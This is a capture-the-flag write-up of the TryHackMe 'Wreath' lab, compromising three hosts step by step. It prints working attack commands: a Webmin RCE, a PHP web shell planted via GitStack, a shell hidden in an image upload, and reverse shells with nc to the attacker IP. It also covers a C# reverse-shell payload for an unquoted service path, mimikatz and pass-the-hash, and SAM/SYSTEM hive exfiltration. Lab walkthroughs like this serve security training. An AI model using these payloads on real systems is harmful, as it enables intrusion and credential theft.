# TryHackMe: Wreath Writeup by ll1a4x

- Room link: https://tryhackme.com/room/wreath  
- It's free for any non-subcriber who has 7 Day Sreak

----

## Table of Contents
- [Setup](#setup)
- [Target1: 10.200.90.200 (prod-serv)](#target1-1020090200-prod-serv)
	- [Infor Gathering and Enumeration on 10.200.90.200 (prod-serv)](#infor-gathering-and-enumeration-on-1020090200-prod-serv)
	- [Root access on 10.200.90.200 (prod-serv)](#root-access-on-1020090200-prod-serv)
	- [Post-Exploitation on 10.200.90.200 (prod-serv)](#post-exploitation-on-1020090200-prod-serv)
- [Target2: 10.200.90.150 (git-serv)](#target2-1020090150-git-serv)
	- [Enumeration on 10.200.90.150 (git-serv)](#enumeration-on-1020090150-git-serv)
	- [Administrator access on 10.200.90.150 (git-serv)](#administrator-access-on-1020090150-git-serv)
	- [Post-Exploitation on 10.200.90.150 (git-serv)](#post-exploitation-on-1020090150-git-serv)
- [Target3: 10.200.90.100 (wreath-pc)](#target3-1020090100-wreath-pc)
	- [Infor Gathering and Enumeration on 10.200.90.100 (wreath-pc)](#infor-gathering-and-enumeration-on-1020090100-wreath-pc)
	- [Low-priv user access on 10.200.90.100 (wreath-pc)](#low-priv-user-access-on-1020090100-wreath-pc)
	- [PE on 10.200.90.100 (wreath-pc) - Method 1: PrintSpoofer](#pe-on-1020090100-wreath-pc---method-1-printspoofer)
	- [PE on 10.200.90.100 (wreath-pc) - Method 2: unquoted service path](#pe-on-1020090100-wreath-pc---method-2-unquoted-service-path)
	- [Post-Exploitation on 10.200.90.100 (wreath-pc)](#post-exploitation-on-1020090100-wreath-pc)

---

## Setup

Installation and setup  
- Download the tools
- Password of extracting tools: WreathNetwork
- Connecting to VPN
	- `sudo openvpn ~/Documents/ovpn/{your_THMusername}-wreath.ovpn`
- Start the wreath network in the room
	- It may take up to 5 minutes for the network to fully set up and function by itself  



My IP: 10.50.91.115 (kali)  
Target1: 10.200.90.200 (prod-serv)  
Target2: 10.200.90.150 (git-serv)  
Target3: 10.200.90.100 (wreath-pc)  

## Target1: 10.200.90.200 (prod-serv)

### Infor Gathering and Enumeration on 10.200.90.200 (prod-serv)

Scan by nmap
- `sudo nmap -vv -p0- 10.200.90.200 -oA allPorts-10.200.90.200`
- `cat allPorts-10.200.90.200.nmap | grep open | awk -F "/" '{print $1 }' | sort -g | sed -z 's/\n/,/g;s/,$/\n/'`
```
22,80,443,10000
```
- `sudo nmap -vv -p22,80,443,10000 -A 10.200.90.200 -oA openPorts-10.200.90.200`




Banner grabbing by whatweb
- `whatweb 10.200.90.200`
- `whatweb 10.200.90.200:10000`




Visit the website in the browser
- http://10.200.90.200/
	- When you enter the website above, it's automatically redirectings to `https://thomaswreath.thm/`
- Let's add the domain name in the local hosts file by using the command
	- `sudo vi /etc/hosts`
```
10.200.90.200 thomaswreath.thm
```
- http://thomaswreath.thm
	- Advanced -> Accept the Risk and Continue
	- Now, we are able to see the website and collect some useful information.
- https://10.200.90.200:10000/
	- A webmin login page



### Root access on 10.200.90.200 (prod-serv)

RCE of MiniServ/1.890
- Google search the keywords "MiniServ/1.890"
	- https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE
	- https://medium.com/@foxsin34/webmin-1-890-exploit-unauthorized-rce-cve-2019-15107-23e4d5a9c3b4
- Download the exploit: `wget https://raw.githubusercontent.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/master/webmin-1.890_exploit.py`
- Read and understand how this exploit works: `less webmin-1.890_exploit.py`
- Getting the ssh key of root: `python webmin-1.890_exploit.py 10.200.90.200 10000 "cat /root/.ssh/id_rsa"`
- Copy and paste the ssh private key; change the permission of ssh private key; ssh to the target with root permission
```
vi id_rsa_root

chmod 400 id_rsa_root

ssh -i id_rsa_root root@10.200.90.200
```




### Post-Exploitation on 10.200.90.200 (prod-serv)
Use the static binary nmap for target scanning
- Download the static binary nmap from the public repo: `wget https://github.com/ll1a4x/CTF_payloads/raw/main/nmap`
- Transfer nmap to the target by scp: `scp -i id_rsa_root ./nmap root@10.200.90.200:/dev/shm/nmap-ll2022`
- In the ssh shell
```
cd /dev/shm

chmod +x /dev/shm/nmap-ll2022

/dev/shm/nmap-ll2022 -sn 10.200.90.1-255 -oN allips-ll2022
```
- .250 is for openvpn (not for the lab purpose); .200 is the current host.
	- This means we have targets of .150 and .100



## Target2: 10.200.90.150 (git-serv)

### Enumeration on 10.200.90.150 (git-serv)

In the root ssh shell on 10.200.90.200 (prod-serv)
- You may open 2 ssh shells to scan both targets simultaneously
- `sudo /dev/shm/nmap-ll2022 -vv -p- 10.200.90.100 -oA allPorts-10.200.90.100`
- `sudo /dev/shm/nmap-ll2022 -vv -p- 10.200.90.150 -oA allPorts-10.200.90.150`
- As a result of the nmap scanning, we are focusing on the .150 as the next target.





Use sshuttle on .200 as the pivoting point
```
sudo sshuttle -r root@10.200.90.200:22 10.200.90.0/24 -e 'ssh -i id_rsa_root' -x 10.200.90.200
```

Visit .150 website on the browser
- http://10.200.90.150
- http://10.200.90.150/registration/login/
	- We see the GitStack login page
	- The credentials `admin:admin` is not working




### Administrator access on 10.200.90.150 (git-serv)

RCE of gitstatck 2.3.10
- Search the public exploit: `searchsploit gitstack`
	- Copy it to the cwd: `searchsploit -m php/webapps/43777.py`
- Edit it: `vi 43777.py`
```
...
ip = '10.200.90.150'
...
```
- Read and understand the exploit
```
...
TPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\exploit.php'))
...
r = requests.post("http://{}/web/exploit.php".format(ip), data={'a' : command})
```
- Run the exploit with the python2 script: `python2 43777.py`
- Run it manually by curl and add a new admin user
```
curl -X POST -d "a=net user pwnuser passme1416 /add" "http://10.200.90.150/web/exploit.php"

curl -X POST -d "a=net localgroup administrators pwnuser /add" "http://10.200.90.150/web/exploit.php"
```
- Use xfreerdp to connect the target via remote desktop
```
xfreerdp /v:10.200.90.150:3389 /u:pwnuser /p:passme1416
```




### Post-Exploitation on 10.200.90.150 (git-serv)

Transfer mimimkatz to .150
- Download mimikatz.exe from the public repo: `wget https://github.com/ll1a4x/CTF_payloads/raw/main/mimikatz64_2.2.2.exe`
- SCP to .200: `scp -i id_rsa_root ./mimikatz64_2.2.2.exe root@10.200.90.200:/dev/shm/mimikatz-ll2022.exe`
- Add an allowed incoming traffic for an intermediate port that's set up as the python3 http server
```
firewall-cmd --zone=public --add-port 8356/tcp
python3 -m http.server 8356
```
- In the xfreerdp on 10.200.90.150 (git-serv)
	- Right click cmd.exe to run as Administrator
```
certutil -urlcache -f http://10.200.90.200:8356/mimikatz-ll2022.exe c:\users\public\mimikatz-ll2022.exe
```




Use mimikatz.exe to gain the hash of administrator
- In the cmd.exe: `c:\users\public\mimikatz-ll2022.exe`
```
privilege::debug
token::elevate
lsadump::sam
```
- We can get the hashes of administrator and thomas.
	- Save them by `vi creds.txt`
- Then, we can just sign out of the pwnuser in the xfreerdp in 10.200.90.150 (git-serv)
- Extract the clear-text password of thomas on https://crackstation.net/
	- `echo thomas:i<3ruby >> creds.txt`

Pass-the-hash attack by evil-winrm
- `evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.90.150`
- Clean up the pwnuser account
```
net user pwnuser /delete

net user
```





## Target3: 10.200.90.100 (wreath-pc)

### Infor Gathering and Enumeration on 10.200.90.100 (wreath-pc)

Port scanning by powershell script
- Download Invoke-Portscan.ps1 from the public repo: `wget https://raw.githubusercontent.com/ll1a4x/CTF_payloads/main/Invoke-Portscan.ps1`
- In the evil-win admin shell: upload the port scanning powershell script and scan the ports on the .100
```
upload ./Invoke-Portscan.ps1 Invoke-Portscan-ll2022.ps1

Import-Module C:\Users\Administrator\Documents\Invoke-Portscan-ll2022.ps1

Invoke-Portscan -Hosts 10.200.90.100 -TopPorts 50
```
- We see that port 80 and 3389 are open on .100



Use chisel to set up the proxychain
- Download chisel.exe from the public repo: `wget https://github.com/ll1a4x/CTF_payloads/raw/main/chisel.exe`
- Upload chisel.exe via evil-win shell: `upload ./chisel.exe chisel-ll2022.exe`
- Config the firewall rule and run the chisel as the server on .150
```
netsh advfirewall firewall add rule name="chisel-ll2022" dir=in action=allow protocol=tcp localport=8682

C:\Users\Administrator\Documents\chisel-ll2022.exe server -p 8682 --socks5
```
- In Kali, update proxychains config: `sudo vi /etc/proxychains.conf`
```
[ProxyList]
socks5 127.0.0.1 8080
```
- Run the chisel as the client: `chisel client 10.200.90.150:8682 8080:socks`



Enumerate .100 web app by proxychains and FoxyPRoxy in the Firefox
- In FoxyProxy set the proxy type to be socks5 on 127.0.0.1 on port 8080
- http://10.200.90.100/
	- Note: it's slowly loading the web on .100 due to the double port redirections by sshuttle and chisel.
	- This website looks like a copy from the git server 10.200.90.150
- Use whatweb to see the banners: `sudo proxychains whatweb http://10.200.90.100/`
	- We see `PHP/7.4.11`
- On a new terminal: `evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.90.150`
	- After examining the directory `c:\gitstack`, we found an intersting directory `C:\gitstack\repositories\Website.git`
	- Download the Website.git in the evil-winrm: `download C:\gitstack\repositories\Website.git ./Website.git`
- In Kali:
```
cd Website.git

mv 'C:\gitstack\repositories\Website.git' .git

cd ..
```




Examine the Website.git
- Download the GitTools from the public repo: `git clone https://github.com/internetwache/GitTools`
```
chmod +x GitTools/Extractor/extractor.sh

cd Website.git

../GitTools/Extractor/extractor.sh . website

cd ..
```
- We found three commits by using `ls -al ./Website.git/website`
- Find the latest commit:
```
cat Website.git/website/0-70dde80cc19ec76704567996738894828f4ee895/commit-meta.txt

cat Website.git/website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3/commit-meta.txt

cat Website.git/website/2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2/commit-meta.txt
```
- So, we found that 1-345a..'s parent is 2-82df.. AND 2-82df..'s parent is 0-70dd
- This means that 1-345a.. is the most updated commit
- Continue examining the commit 1-345a..: 
```
ls -al Website.git/website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3

ls -al Website.git/website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3/resources
```
- We see index.php





### Low-priv user access on 10.200.90.100 (wreath-pc)

Analyze the source code of index.php
```
cat Website.git/website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3/resources/index.php
```
- This looks like a uploading webpage. Read the source code to find a uploading vuln:
```
...
$goodExts = ["jpg", "jpeg", "png", "gif"];
...
$size = getimagesize($_FILES["file"]["tmp_name"]);
if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
	header("location: ./?msg=Fail");
	die();
...
```
- The explode() function in this file shows that: as long as the file has one of those four images extensions, the server is going to accpet the file. This means that we can legitimately upload shell.jpg.php that may contain php code. Also, getimagesize() function is checking for the attributes that only an image can have. This implies we also need a normal image as the payload holder.
- The structure of directories implies that there is web direcotry: `resources`

Exploit the uploading vuln
- Visit http://10.200.90.100/resources/
	- This is asking the creds, let's try `thomas:i<3ruby` that we gained from the previous section.
- Customize the shell payload
	- Just get a normal image: `cp ~/Documents/Pictures_backup/demo.png rce-ll2022.png.php`
	- Examine the image: `exiftool rce-ll2022.png.php`
	- Add the php code to the image `echo "<?php echo shell_exec(\$_GET['cmd']); ?>" >> rce-ll2022.png.php`
- Visit http://10.200.90.100/resources/
	- Upload rce-ll2022.png.php
- RCE in the browser: `view-source:http://10.200.90.100/resources/uploads/rce-ll2022.png.php?cmd=whoami /all`
- Let's get an interactive shell on the target
	- Download the nc64.exe from the public repo: `wget https://github.com/ll1a4x/CTF_payloads/raw/main/nc64.exe`
	- Set up local python http server: `python3 -m http.server 80`
	- Then, upload nc.exe to the target, set up the nc listener and trigger for the reverse shell
```
sudo proxychains curl -u 'thomas:i<3ruby' "http://10.200.90.100/resources/uploads/rce-ll2022.png.php?cmd=curl+http://10.50.91.115/nc64.exe+-o+c:\\users\\public\\nc.exe"

rlwrap nc -nvlp 443

sudo proxychains curl -u 'thomas:i<3ruby' "http://10.200.90.100/resources/uploads/rce-ll2022.png.php?cmd=c:\\users\\public\\nc.exe+-e+cmd.exe+10.50.91.115+443"
```



### PE on 10.200.90.100 (wreath-pc) - Method 1: PrintSpoofer

- Since we see that the current user `thomas` has the privilege `SeImpersonatePrivilege`, we can try PrintSpoofer PE.
Transfer PrintSpoofer64.exe to the target
- Download the binary from the public repo: `wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe`
- Transfer from Kali to the target
```
# Kali:
python -m http.server 80

# Target:
curl 10.50.91.115/PrintSpoofer64.exe -o c:\users\public\PrintSpoofer64.exe
```
- Trigger it in the target shell:
```
c:\users\public\PrintSpoofer64.exe -i -c cmd
```



### PE on 10.200.90.100 (wreath-pc) - Method 2: unquoted service path

Enumerate windows services
- `wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"`
	- We see that systemExplorerHelpService has unquoted service path
- Check the service by `sc qc systemExplorerHelpService`
	- It's running by `LocalSystem`
- Check the acl on the directory of this service: `powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"`
	- So, we have full access on this directory `C:\Program Files (x86)\System Explorer`




Customizes the payload
- In Kali, we use the linux C# compiler Mono `mcs` compiler
- `vi priv.cs`
```
using System;
using System.Diagnostics;

namespace Wrapper{
  class Program{
    static void Main(){
      Process proc = new Process();
      ProcessStartInfo procInfo = new ProcessStartInfo("c:\\users\\public\\nc.exe", "10.50.91.115 443 -e cmd.exe ");
      procInfo.CreateNoWindow = true;
      proc.StartInfo = procInfo;
      proc.Start();
    }
  }
}
```
- Complie it by: `mcs priv.cs`
- Transfer it by using impacket-smbserver
```
impacket-smbserver share . -smb2support -username user -password s3cureP@ssword

net use \\10.50.91.115\share /USER:user s3cureP@ssword

copy \\10.50.91.115\share\priv.exe "C:\users\public\priv.exe"

net use \\10.50.91.115\share /del
```
- Trigger it for the revershe shell
```
copy "C:\users\public\priv.exe" "C:\Program Files (x86)\System Explorer\System.exe"

sc stop SystemExplorerHelpService

rlwrap nc -nvlp 443

sc start SystemExplorerHelpService
```



### Post-Exploitation on 10.200.90.100 (wreath-pc)

The mimikatz.exe is not working due to the defender. It may be destructive to disable the defender. Without disabling the defender, we can extract password hashes manually.  

Transfer sam and system files to Kali and decrypt them by impacket-secretsdump locally
- In kali:
```
impacket-smbserver shr . -smb2support -username user -password s3cureP@ssword
```
- In the target shell as the nt authority\system, Save the sam and system:
```
reg.exe save HKLM\SAM c:\users\public\sam.bak

reg.exe save HKLM\SYSTEM c:\users\public\system.bak
```
- Transfer the files to Kali
```
net use \\10.50.91.115\shr /USER:user s3cureP@ssword

copy c:\users\public\sam.bak \\10.50.91.115\shr\sam.bak

copy c:\users\public\system.bak \\10.50.91.115\shr\system.bak
```
- Clean up
```
net use \\10.50.91.115\shr /del

del c:\users\public\sam.bak

del c:\users\public\system.bak
```
- In Kali:
```
impacket-secretsdump -system system.bak -sam sam.bak local 
```



---

